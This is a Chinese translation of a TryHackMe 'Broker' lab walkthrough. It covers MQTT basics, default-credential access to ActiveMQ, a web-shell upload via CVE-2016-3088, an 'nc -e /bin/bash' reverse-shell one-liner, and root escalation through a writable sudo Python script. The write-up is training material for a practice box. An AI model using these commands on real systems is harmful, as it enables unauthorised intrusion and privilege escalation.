# TryHackMe |经纪人报道

> 原文：<https://infosecwriteups.com/tryhackme-broker-writeup-fb75b30cf674?source=collection_archive---------0----------------------->



# **概述**

嘿，你们好吗？我带着另一篇报道回来了，这次是尝试由 [M0N573R777](https://tryhackme.com/p/M0N573R777) 和 [ripcurlz](https://tryhackme.com/p/ripcurlz) 的[经纪人](https://tryhackme.com/room/broker)。这是一个非常有趣的盒子，也是一个非常独特的盒子，展示了物联网设备中非常微小的安全性。该机器首先扫描较高的端口，以获得在这些端口上运行的服务。其中一个端口托管一个 MQTT 代理，使用它我们可以找到一个主题进行订阅。然后，我们找到一个 CVE，稍微修改一下，在机器上得到命令注入，并得到一个反向外壳返回。最后，我们使用一个错误配置的脚本来获得根用户访问权限。那么，没有别的话要说了，我们开始吧。

# **等待，然后继续！**

在你继续这个房间之前，有一些事情你必须知道和理解。

*什么是 MQTT？*

MQ 遥测传输协议(MQTT)是一种主要由温度计等工业物联网设备使用的协议。虽然，有些例外确实存在，比如智能家居自动化系统。

*MQTT 为什么存在？*

每个人(至少，每个阅读这篇文章的人)都知道互联网是基于 TCP/IP 模型的。但是，TCP/IP 模型的主要问题是，它并没有被优化为适用于不稳定的低带宽网络。此外，使用受限制的设备(如传感器)时，数据处理能力已经非常低，TCP/IP 网络堆栈很快成为一个问题。这就是 MQTT 的用武之地，它位于 TCP/IP 协议之上，并使用发布/订阅消息传递协议，该协议是专门针对不稳定、不可靠的低带宽连接而设计的，由于它使用 TCP 进行传输，因此它具有持续的会话感知能力。

*什么是发布/订阅消息协议？*

与 TCP/IP 使用的传统客户机-服务器模型(客户机直接与端点(另一个客户机或服务器)通信)不同，MQTT 客户机分为两组:发送者(在 MQTT 中称为发布者)和接收数据的消费者(MQTT 订户)。发布者和订阅者对彼此一无所知，事实上，他们从来没有直接联系过。第三个组件(MQTT 代理)充当“中间人”，将消息从发布者引导到充当订阅者的任何端点。(哎呀)



演职员表:[https://behrtech.com/blog/mqtt-in-the-iot-architecture/](https://behrtech.com/blog/mqtt-in-the-iot-architecture/)

如果你想更多地了解 MQTT 是什么，以及它是如何工作的，请访问 http://www.steves-internet-guide.com/mqtt-basics-course/。

好吧！，说完就走了。

# **我们闯进去吧！**

和往常一样，从 NMap 扫描开始

```
sudo nmap -sS -sC -sV -oA nmap/broker -vv *THM Box IP*
```



NMap 显示两个端口是开放的 1883(MQTT)，8161(ActiveMQ)。

端口 8161 托管一个由 Apache 软件基金会 ActiveMQ 开发的消息代理。点击“管理 ActiveMQ 代理”会弹出一个对话框，要求提供凭证。尝试一些默认密码，让我们以管理员身份登录。



下一个任务需要使用 MQTT 客户机来访问通过的信息。要访问它，需要一些东西。首先，一个 MQTT 客户机连接到 MQTT 服务，然后是一个“主题”，我们将*作为订阅者*，接收由*发布者*发送的数据。

让我们检查一下代理的主题列表，因为我们没有任何主题。在访问代理的“主题”部分时，会出现多个主题，“secret_chat”是其中之一。有意思。



要订阅该主题，首先安装您选择的 MQTT 客户机。由 Eclipse 基金会开发的 Eclipse Mosquitto 有一个名为 mosquitto_sub 的工具，可以让你成为它的订阅者。

现在，要订阅该主题，请使用以下命令

```
mosquitto_sub -t 'secret_chat/#' -h *THM Box IP* -p 1883 -V mqttv31 --tls-version tlsv1.2
```



> 这里，-t:要订阅的主题，#:是一个通配符，允许您订阅多个级别的主题，-h:主机名或 ip 地址，-p:MQTT 服务的端口号，-V:MQTT 服务的版本，- tls-version:它是服务使用的 tls 版本

**p . s .**MQTT 中的主题存储为目录，这就是为什么存在“#”和“+”通配符。

看起来，两个人正在使用代理作为聊天服务。看他们的聊天记录，他们似乎在讨论一个游戏。这是一种有趣的使用服务的方式，虽然不太安全。

现在，为了获得机器访问权，我们需要为 ActiveMQ 开发一个 CVE。搜索 [exploit-db](https://www.exploit-db.com/) ，发现一个漏洞。但是，它并不像宣传的那样有效，需要做一些改变。



使用 PUT HTTP 谓词，并将有效负载发送到存储在文件服务器目录中。这个漏洞没有起作用，因为我们的 web-shell 没有在文件服务器目录中执行的权限。下一个合乎逻辑的事情是将它移动到一个可以移动的目录中。接下来的问题是，在哪里？



在搜索漏洞的可用解决方案时，我看到了由 [Knownsec 404](https://medium.com/@knownsec404team/analysis-of-apache-activemq-remote-code-execution-vulnerability-cve-2016-3088-575f80924f30) 团队撰写的这篇伟大的文章，这篇文章更深入地解释了漏洞，为什么它不起作用，以及如何使它起作用。

Knownsec 404 团队似乎将它移到了一个名为“Apache-ActiveMQ-*some version number*”的目录中。下一个障碍是计算代理的版本号。NMap 没有给我们提供，所以我们需要手动搜索。使用 GoBuster，让我们尝试找到一些端点。



在发出请求时，记得放入“Authorization”头，否则应用程序将只响应 401(未授权)代码。我们有许多结果，在访问第一个目录时，我们找到了版本号，完整的路径反映在网页上。



关注 activemq.home

现在，我们可以绝对肯定这是我们应该移动外壳的路径，以便执行它。让我们利用 MOVE 方法，并指定目标路径(在 activemq.home/webapps/admin 中)，来移动我们的 web-shell。



然后，去“*THM box IP*/admin/cmd.jsp？cmd= "并向 cmd 变量传递您希望在机器上执行的任何值。



我们得到了命令执行，这意味着我们可以得到我们机器的反向外壳。使用普通的 bash reverse shell one liner，我无法得到一个反向 shell，可能是一些坏字符，打乱了命令，所以我使用 NetCat reverse shell oneliner。

```
nc -e /bin/bash *Your tun0 IP* *port you’re listening on*
```

记住用“+”符号或使用“%20”对空格进行编码，否则该命令将不起作用。



升级反向外壳

反向外壳是作为机器上的用户接收的。运行 sudo -l 时，用户 activemq 可以作为根用户运行一个 python 脚本，该脚本归 activemq 所有。这意味着，改变文件的内容，并执行它，将得到根外壳。用以下命令更改脚本的内容

```
import os
os.system(“/bin/bash”)
```



这就是装箱子的人。希望你们喜欢

如果你有任何建议，请在评论中告诉我。

祝你有美好的一天！